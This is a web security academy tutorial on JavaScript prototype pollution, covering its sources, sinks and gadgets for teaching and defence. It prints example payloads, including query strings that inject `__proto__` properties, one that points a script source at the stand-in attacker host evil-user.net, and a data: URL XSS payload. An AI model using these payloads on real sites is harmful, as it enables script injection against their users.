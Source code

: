 1. [Web Security Academy](/web-security)  
2. [Prototype pollution](/web-security/prototype-pollution)  
  
# What is prototype pollution?  
  
Prototype pollution is a JavaScript vulnerability that enables an attacker to add arbitrary properties to global object prototypes, which may then be inherited by user-defined objects.   
Although prototype pollution is often unexploitable as a standalone vulnerability, it lets an attacker control properties of objects that would otherwise be inaccessible. If the application subsequently handles an attacker-controlled property in an unsafe way, this can potentially be chained with other vulnerabilities. In client-side JavaScript, this commonly leads to [DOM XSS](/web-security/cross-site-scripting/dom-based), while server-side prototype pollution can even result in remote code execution.   
If you're unfamiliar with how prototypes and inheritance work in JavaScript, we recommend reading the following overview before continuing.   
[JavaScript prototypes and inheritance](/web-security/prototype-pollution/javascript-prototypes-and-inheritance)  
  
#### Labs  
  
If you're already familiar with prototype pollution and just want to practice on a series of deliberately vulnerable sites, check out the link below for an overview of all labs in this topic.   
  
1. [LABS View all prototype pollution labs](/web-security/all-labs#prototype-pollution)  
  
## How do prototype pollution vulnerabilities arise?  
  
Prototype pollution vulnerabilities typically arise when a JavaScript function recursively merges an object containing user-controllable properties into an existing object, without first sanitizing the keys. This can allow an attacker to inject a property with a key like `__proto__`, along with arbitrary nested properties.   
Due to the [special meaning of `__proto__`](/web-security/prototype-pollution/javascript-prototypes-and-inheritance#accessing-an-object-s-prototype-using-proto) in a JavaScript context, the merge operation may assign the nested properties to the object's [prototype](/web-security/prototype-pollution/javascript-prototypes-and-inheritance#what-is-a-prototype-in-javascript) instead of the target object itself. As a result, the attacker can pollute the prototype with properties containing harmful values, which may subsequently be used by the application in a dangerous way.   
It's possible to pollute any prototype object, but this most commonly occurs with the [built-in global `Object.prototype`](/web-security/prototype-pollution/javascript-prototypes-and-inheritance#the-prototype-chain).   
Successful exploitation of prototype pollution requires the following key components:   
  
1. [A prototype pollution source](/web-security/prototype-pollution#prototype-pollution-sources) \- This is any input that enables you to poison prototype objects with arbitrary properties.   
2. [A sink](/web-security/prototype-pollution#prototype-pollution-sinks) \- In other words, a JavaScript function or DOM element that enables arbitrary code execution.   
3. [An exploitable gadget](/web-security/prototype-pollution#prototype-pollution-gadgets) \- This is any property that is passed into a sink without proper filtering or sanitization.   
  
## Prototype pollution sources  
  
A prototype pollution source is any user-controllable input that enables you to add arbitrary properties to prototype objects. The most common sources are as follows:   
  
1. The [URL](/web-security/prototype-pollution#prototype-pollution-via-the-url) via either the query or fragment string (hash)   
2. [JSON-based input](/web-security/prototype-pollution#prototype-pollution-via-json-input)  
3. Web messages   
  
### Prototype pollution via the URL  
  
Consider the following URL, which contains an attacker-constructed query string:   
`https://vulnerable-website.com/?__proto__[evilProperty]=payload`  
When breaking the query string down into `key:value` pairs, a URL parser may interpret `__proto__` as an arbitrary string. But let's look at what happens if these keys and values are subsequently merged into an existing object as properties.   
You might think that the `__proto__` property, along with its nested `evilProperty`, will just be added to the target object as follows:   
`{ existingProperty1: 'foo', existingProperty2: 'bar', __proto__: { evilProperty: 'payload' } }`  
However, this isn't the case. At some point, the recursive merge operation may assign the value of `evilProperty` using a statement equivalent to the following:   
`targetObject.__proto__.evilProperty = 'payload';`  
During this assignment, the JavaScript engine treats `__proto__` as a getter for the prototype. As a result, `evilProperty` is assigned to the returned prototype object rather than the target object itself. Assuming that the target object uses the default `Object.prototype`, all objects in the JavaScript runtime will now inherit `evilProperty`, unless they already have a property of their own with a matching key.   
In practice, injecting a property called `evilProperty` is unlikely to have any effect. However, an attacker can use the same technique to pollute the prototype with properties that are used by the application, or any imported libraries.   
  
### Prototype pollution via JSON input  
  
User-controllable objects are often derived from a JSON string using the `JSON.parse()` method. Interestingly, `JSON.parse()` also treats any key in the JSON object as an arbitrary string, including things like `__proto__`. This provides another potential vector for prototype pollution.   
Let's say an attacker injects the following malicious JSON, for example, via a web message:   
`{ "__proto__": { "evilProperty": "payload" } }`  
If this is converted into a JavaScript object via the `JSON.parse()` method, the resulting object will in fact have a property with the key `__proto__`:   
`const objectLiteral = {__proto__: {evilProperty: 'payload'}}; const objectFromJson = JSON.parse('{"__proto__": {"evilProperty": "payload"}}'); objectLiteral.hasOwnProperty('__proto__'); // false objectFromJson.hasOwnProperty('__proto__'); // true`  
If the object created via `JSON.parse()` is subsequently merged into an existing object without proper key sanitization, this will also lead to prototype pollution during the assignment, as we saw in the previous [URL-based example](/web-security/prototype-pollution#prototype-pollution-via-the-url).   
  
## Prototype pollution sinks  
  
A prototype pollution sink is essentially just a JavaScript function or DOM element that you're able to access via prototype pollution, which enables you to execute arbitrary JavaScript or system commands. We've covered some client-side sinks extensively in our topic on [DOM XSS](/web-security/cross-site-scripting/dom-based).   
As prototype pollution lets you control properties that would otherwise be inaccessible, this potentially enables you to reach a number of additional sinks within the target application. Developers who are unfamiliar with prototype pollution may wrongly assume that these properties are not user controllable, which means there may only be minimal filtering or sanitization in place.   
  
## Prototype pollution gadgets  
  
A gadget provides a means of turning the prototype pollution vulnerability into an actual exploit. This is any property that is:   
  
1. Used by the application in an unsafe way, such as passing it to a sink without proper filtering or sanitization.   
2. Attacker-controllable via prototype pollution. In other words, the object must be able to inherit a malicious version of the property added to the prototype by an attacker.   
A property cannot be a gadget if it is defined directly on the object itself. In this case, the object's own version of the property takes precedence over any malicious version you're able to add to the prototype. [Robust websites](/web-security/prototype-pollution/preventing#preventing-an-object-from-inheriting-properties) may also explicitly set the prototype of the object to `null`, which ensures that it doesn't inherit any properties at all.   
  
### Example of a prototype pollution gadget  
  
Many JavaScript libraries accept an object that developers can use to set different configuration options. The library code checks whether the developer has explicitly added certain properties to this object and, if so, adjusts the configuration accordingly. If a property that represents a particular option is not present, a predefined default option is often used instead. A simplified example may look something like this:   
`let transport_url = config.transport_url || defaults.transport_url;`  
Now imagine the library code uses this `transport_url` to add a script reference to the page:   
`let script = document.createElement('script'); script.src = `${transport_url}/example.js`; document.body.appendChild(script);`  
If the website's developers haven't set a `transport_url` property on their `config` object, this is a potential gadget. In cases where an attacker is able to pollute the global `Object.prototype` with their own `transport_url` property, this will be inherited by the `config` object and, therefore, set as the `src` for this script to a domain of the attacker's choosing.   
If the prototype can be polluted via a query parameter, for example, the attacker would simply have to induce a victim to visit a specially crafted URL to cause their browser to import a malicious JavaScript file from an attacker-controlled domain:   
`https://vulnerable-website.com/?__proto__[transport_url]=//evil-user.net`  
By providing a `data:` URL, an attacker could also directly embed an XSS payload within the query string as follows:   
`https://vulnerable-website.com/?__proto__[transport_url]=data:,alert(1);//`  
Note that the trailing `//` in this example is simply to comment out the hardcoded `/example.js` suffix.   
  
### What next?  
  
Now that you're familiar with the concepts behind prototype pollution, let's take a look at how you can find these vulnerabilities in real-world applications:   
  
1. [LABS Client-side prototype pollution vulnerabilities](/web-security/prototype-pollution/client-side)
2. [LABS Server-side prototype pollution vulnerabilities](/web-security/prototype-pollution/server-side)
3. [Preventing prototype pollution vulnerabilities](/web-security/prototype-pollution/preventing)
